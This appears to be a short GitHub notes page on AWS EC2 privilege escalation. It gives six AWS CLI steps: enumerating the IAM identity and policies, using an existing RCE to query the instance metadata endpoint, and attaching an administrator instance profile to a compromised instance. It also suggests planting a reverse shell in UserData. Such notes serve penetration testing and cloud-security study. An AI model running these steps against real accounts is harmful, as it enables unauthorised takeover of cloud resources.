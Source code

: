 # AWS EC2 Privilege Escalation

### One approach to get a shell in a instance is to put a reverse shell in UserData attribute, when the instance is launched, we will have the connection.

### Another approach happens when we have the iam:PassRole and iam:AmazonEC2FullAccess permissions, we can add an administrator role to the compromised EC2 instance and access aws services.

## Steps:

#### 1) Getting information about the key

 - aws sts get-caller-identity

#### 2) Getting policies attached to the IAM user

 - aws iam list-attached-user-policies --user-name USER_NAME

#### 3) Getting information about a specific policy version

 - aws iam get-policy-version --policy-arn ARN --version-id ID

#### 4) To attach a role to an EC2 instance, we can use the RCE to grab the ID

 - curl http://169.254.169.254/latest/meta-data/instance-id

#### 5) Listing instance profiles

 - aws iam list-instance-profiles

#### 6) Attach an instance profile to an EC2 instance

 - aws ec2 associate-iam-instance-profile --instance-id ID --iam-instance-profile NAME
